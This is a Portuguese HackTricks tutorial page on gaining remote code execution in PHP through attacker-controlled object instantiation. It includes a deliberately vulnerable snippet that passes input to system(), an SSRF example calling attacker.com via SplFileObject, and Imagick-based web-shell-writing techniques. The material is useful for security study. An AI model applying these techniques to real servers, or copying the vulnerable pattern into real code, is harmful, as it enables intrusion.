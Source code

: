 # PHP - RCE abusando da criação de objetos: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

Este é basicamente um resumo de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introdução

A criação de novos objetos arbitrários, como `new $_GET["a"]($_GET["a"])`, pode levar à Execução Remota de Código (RCE), conforme detalhado em um [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Este documento destaca várias estratégias para alcançar RCE.

## RCE via Classes Personalizadas ou Autoloading

A sintaxe `new $a($b)` é usada para instanciar um objeto onde **`$a`** representa o nome da classe e **`$b`** é o primeiro argumento passado para o construtor. Essas variáveis podem ser obtidas de entradas do usuário, como GET/POST, onde podem ser strings ou arrays, ou de JSON, onde podem se apresentar como outros tipos.

Considere o trecho de código abaixo:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Neste caso, definir `$a` como `App` ou `App2` e `$b` como um comando do sistema (por exemplo, `uname -a`) resulta na execução desse comando.

**Funções de Autoloading** podem ser exploradas se tais classes não estiverem diretamente acessíveis. Essas funções carregam automaticamente classes de arquivos quando necessário e são definidas usando `spl_autoload_register` ou `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
O comportamento do autoloading varia com as versões do PHP, oferecendo diferentes possibilidades de RCE.

## RCE via Classes Integradas

Na falta de classes personalizadas ou autoloaders, **classes integradas do PHP** podem ser suficientes para RCE. O número dessas classes varia entre 100 a 200, com base na versão do PHP e nas extensões. Elas podem ser listadas usando `get_declared_classes()`.

Construtores de interesse podem ser identificados através da API de reflexão, como mostrado no seguinte exemplo e no link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via métodos específicos inclui:**

### **SSRF + Deserialização Phar**

A classe `SplFileObject` permite SSRF através de seu construtor, permitindo conexões a qualquer URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF pode levar a ataques de desserialização em versões do PHP anteriores a 8.0 usando o protocolo Phar.

### **Explorando PDOs**

O construtor da classe PDO permite conexões a bancos de dados via strings DSN, potencialmente permitindo a criação de arquivos ou outras interações:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versões do PHP até 5.3.22 e 5.4.12 eram suscetíveis a ataques XXE através dos construtores `SoapClient` e `SimpleXMLElement`, dependendo da versão do libxml2.

## RCE via Extensão Imagick

Na análise das **dependências de um projeto**, foi descoberto que **Imagick** poderia ser aproveitado para **execução de comandos** ao instanciar novos objetos. Isso apresenta uma oportunidade para explorar vulnerabilidades.

### Parser VID

A capacidade do parser VID de escrever conteúdo em qualquer caminho especificado no sistema de arquivos foi identificada. Isso poderia levar à colocação de um shell PHP em um diretório acessível pela web, alcançando Execução Remota de Código (RCE).

#### Parser VID + Upload de Arquivo

Observa-se que o PHP armazena temporariamente arquivos enviados em `/tmp/phpXXXXXX`. O parser VID no Imagick, utilizando o protocolo **msl**, pode lidar com curingas em caminhos de arquivos, facilitando a transferência do arquivo temporário para um local escolhido. Este método oferece uma abordagem adicional para alcançar a escrita arbitrária de arquivos dentro do sistema de arquivos.

### Crash do PHP + Força Bruta

Um método descrito no [**escrito original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) envolve o upload de arquivos que provocam uma falha no servidor antes da exclusão. Ao forçar o nome do arquivo temporário, torna-se possível para o Imagick executar código PHP arbitrário. No entanto, essa técnica foi considerada eficaz apenas em uma versão desatualizada do ImageMagick.

## Referências

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

